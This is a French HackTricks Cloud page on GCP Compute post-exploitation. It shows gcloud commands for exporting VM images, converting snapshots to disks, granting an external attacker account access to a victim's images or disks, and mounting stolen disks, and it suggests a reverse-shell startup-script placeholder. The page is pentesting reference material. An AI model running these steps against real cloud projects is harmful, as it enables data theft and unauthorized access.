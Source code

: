 # GCP - Post-exploitation Compute

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Compute

Pour plus d'informations sur Compute et VPC (Réseau), consultez :

{% content-ref url="../../gcp-pentesting/gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-pentesting/gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Exporter & Inspecter des Images localement

Cela permettrait à un attaquant **d'accéder aux données contenues dans des images déjà existantes** ou **de créer de nouvelles images de VM en cours d'exécution** et d'accéder à leurs données sans avoir accès à la VM en cours d'exécution.

Il est possible d'exporter une image de VM vers un bucket, puis de la télécharger et de la monter localement avec la commande :

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Avant de réaliser cette action, l'attaquant pourrait avoir besoin de privilèges sur le bucket de stockage et certainement de **privilèges sur cloudbuild**, car c'est le **service** qui sera sollicité pour effectuer l'exportation.\
De plus, pour que cela fonctionne, le SA de codebuild et le SA de compute doivent disposer de permissions privilégiées.\
Le SA de cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` a besoin de :

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

Et le SA `<project-id>-compute@developer.gserviceaccount.com` a besoin de :

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Exporter & Inspecter les Snapshots & Disques localement

Il n'est pas possible d'exporter directement des snapshots et des disques, mais il est possible de **transformer un snapshot en disque, un disque en image** et, en suivant **la section précédente**, d'exporter cette image pour l'inspecter localement

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Inspecter une image en créant une VM

Dans le but d'accéder aux **données stockées dans une image** ou à l'intérieur d'une **VM en cours d'exécution** à partir de laquelle un attaquant **a créé une image,** il est possible d'accorder à un compte externe un accès à l'image :
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
et ensuite créez une nouvelle VM à partir de celle-ci :
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Si vous ne pouviez pas donner à votre compte externe un accès à l'image, vous pourriez lancer une VM en utilisant cette image dans le projet de la victime et **faire exécuter un reverse shell par les métadonnées** pour accéder à l'image en ajoutant le paramètre :
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspecter un Snapshot/Disque en l'attachant à une VM

Dans le but d'accéder aux **données stockées dans un disque ou un snapshot, vous pourriez transformer le snapshot en disque, un disque en image et suivre les étapes précédentes.**

Ou vous pourriez **accorder un accès à un compte externe** sur le disque (si le point de départ est un snapshot, donner accès au snapshot ou créer un disque à partir de celui-ci) :
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Attacher le disque** à une instance :
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Montez le disque dans la VM :

1. **Se connecter en SSH à la VM** :

```sh
gcloud compute ssh [NOM_INSTANCE] --zone [ZONE]
```
2. **Identifier le Disque** : Une fois dans la VM, identifiez le nouveau disque en listant les périphériques de disque. Typiquement, vous pouvez le trouver sous `/dev/sdb`, `/dev/sdc`, etc.
3. **Formater et Monter le Disque** (s'il s'agit d'un disque neuf ou brut) :
*   Créer un point de montage :

```sh
sudo mkdir -p /mnt/disks/[REP_MONTAGE]
```
*   Monter le disque :

```sh
sudo mount -o discard,defaults /dev/[PERIPH_DISQUE] /mnt/disks/[REP_MONTAGE]
```

Si vous **ne pouvez pas donner accès à un projet externe** à l'instantané ou au disque, vous devrez peut-être **effectuer ces actions à l'intérieur d'une instance dans le même projet que l'instantané/le disque**.

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> !</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez**-moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
